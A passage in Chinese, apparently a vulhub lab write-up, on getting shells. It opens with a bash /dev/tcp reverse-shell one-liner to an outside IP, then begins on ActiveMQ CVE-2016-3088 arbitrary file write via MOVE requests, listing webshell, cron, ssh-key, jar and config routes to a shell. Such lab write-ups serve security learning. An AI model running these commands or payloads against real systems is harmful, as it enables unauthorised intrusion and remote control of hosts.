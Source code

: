 · 将运行的命令切换为反弹 shell 的命令即可获得目标的 shell

```powershell
bash -i >& /dev/tcp/47.102.143.147/222 0>&1
```

## 

# ActiveMQ 任意文件写入漏洞（CVE-2016-3088）

`Path:activemq/CVE-2016-3088`

ActiveMQ 的 web 控制台分三个应用，admin、api 和 fileserver，fileserver 无需登录。

本漏洞出现在 fileserver 应用中，漏洞原理其实非常简单，就是 fileserver 支持写入文件（但不解析 jsp），同时支持移动文件（MOVE 请求）。所以，我们只需要写入一个文件，然后使用 MOVE 请求将其移动到任意位置，造成任意文件写入漏洞。

#### 文件上传 getshell 的几种方法：

1、写入 webshell，好处是使用的门槛低，但是需要被解析

2、写入 cron 或者 ssh key，可以直接反弹 shell，但是需要 roo 权限

3、写入 jar，稍微复杂

4、写入 xml 配置文件、需要知道 activemq 的绝对路径

#### 上传 webshell

> 前提条件：拥有后台管理员权限

首先进入http://47.102.143.147:8161/admin/test/systemProperties.jsp 查看 activemq 的物理路径：

![](/assets/img/posts/vulhub.png)
